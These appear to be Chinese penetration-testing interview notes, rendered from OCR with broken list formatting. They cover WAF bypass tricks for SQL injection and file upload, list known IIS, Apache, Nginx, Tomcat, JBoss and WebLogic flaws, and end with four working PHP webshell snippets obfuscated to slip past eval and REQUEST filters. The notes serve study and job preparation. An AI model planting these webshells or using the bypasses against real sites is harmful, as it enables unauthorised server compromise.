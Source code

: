 
1. `*绕sql的常见手法:`1. `参数污染`1. `内联注释`1. `大小写绕过 （很老的WAF才有用）`1. `替换绕过 （很老的WAF才有用）【和上传文件那个pphphp一样】`1. `特殊符号绕过 （%0a换行）```1. `编码绕过 （比如会多次解码的东西，例如我们DOM XSS绕狗那个）`1. `等价替换 （利用其它函数替代）[union #%0aselect 拦截][union all #%0aselect 不拦截]`1. `容器特性（例如Apace的Hpp,或者是IIS的%分割）`1. `白名单（管理员权限或者是127.0.0.1本地访问不拦截）`1. `缓存区溢出 （数据太多了，超出了WAF检测的范围）`
---


---


##### 第三个问题(文件上传怎么绕过)
1. `hr：那如果说，现在有一个文件上传的一个场景，它后端是白名单，WAF是黑名单的个情况，你觉得这个情况要怎么绕过`1. `I：xxx`1. `hr：就程序它后端的一个判断逻辑是判断你的一个后缀是否为一个图形的一个文件，但是它同时有一层有WAF的一个过滤，就是WAF它会拦截你上传的一个后缀，你觉得这个情况可以进行一个绕过吗`1. `I：xxx`
---

1. `你们做过的话，就会知道，这里就不写了`
---

1. `中间件漏洞:`1. `常用web中间件漏洞（随便找的~哈哈哈）：https://www.freebuf.com/articles/web/192063.html`1. `（一） IIS(php中间件漏洞）`1. `1、PUT漏洞`1. `2、短文件名猜解`1. `3、远程代码执行`1. `4、解析漏洞 目录以.asp结尾 xxx.asp;1.jpg`1. `（二） Apache(php中间件)`1. `1、解析漏洞 1.php%0a换行解析 1.php.xxx 未知后缀解析`1. `2、目录遍历`1. `（三） Nginx(php中间件)`1. `1、文件解析`1. `2、目录遍历`1. `3、CRLF注入 (Nginx会将$uri进行解码，导致传入%0a%0d即可引入换行符，造成CRLF注入漏洞)`1. `4、目录穿越 （nginx配置别名的时候alias的时候，忘记加/ 将造成目录穿越漏洞）`1. `5、解析漏洞 1.jpg/.php`1. `（四）Tomcat(java中间件)`1. `1、远程代码执行`1. `2、war后门文件部署`1. `（五）jBoss`1. `1、反序列化漏洞`1. `2、war后门文件部署`1. `（六）WebLogic(java中间件漏洞)`1. `1、反序列化漏洞`1. `2、SSRF`1. `3、任意文件上传`1. `4、war后门文件部署`1. `（七）其它中间件相关漏洞`1. `1、FastCGI未授权访问、任意命令执行`1. `2、PHPCGI远程代码执行`
---


##### 第四个问题(webshell绕过)

---


大佬写的SRC文章：[[限时投稿]SRC快速入门+上分小秘籍+实战指南- Track 知识社区 - 掌控安全在线教育 - Powered by 掌控者](https://bbs.zkaq.cn/t/5605.html)

---

1. `hr：嗯。。。那么看你这边的话是有公益SRC的挖掘，那么是两个官网测试的高危漏洞是什么类型的呢（这个看自己挖的漏洞了）`1. `I：xxx`1. `hr：然后看你这边是有webshell的一个绕过手法，那你一般会怎么样去进行一个webshell的绕过呢`1. `I：xxx`1. `hr：就它程序后端，它就只是会去拦截你的eval，或者就REQUEST（听的不是很清楚不知道是不是）`1. `I：xxx`1. `hr：xxx（还有但是跑题了，总之是问webshell绕过）`
---

1. `*绕防护软件/某些设备/webshell的常见手法:`1. `通过常量定义：`1. `&lt;?php define("a","$_GET[1]");eval(a);`
---

1. `通过字符串拼接 + 双美元符号：`1. `&lt;?php `1. `$a='ass';`1. `$b='ert';`1. `$funcName=$a.$b;`1. `$x='funcName';`1. `$$x($_REQUEST[1]); # 用不了，就加个@符号`
---

1. `通过函数定义强行分割：`1. `&lt;?php`1. `function a($a){`1. `return $a;}`1. `eval(a($_REQUEST)[1]);?&gt;`
---

1. `通过类定义，然后传参强行分割:`1. `&lt;?php `1. `class User`1. `{`1. `public $name = '';`1. `function __destruct(){`1. `eval("$this-&gt;name");`1. `}`1. `}`1. `$user = new User;`1. `$user-&gt;name = ''.$_REQUEST[1];`1. `?&gt;`
---
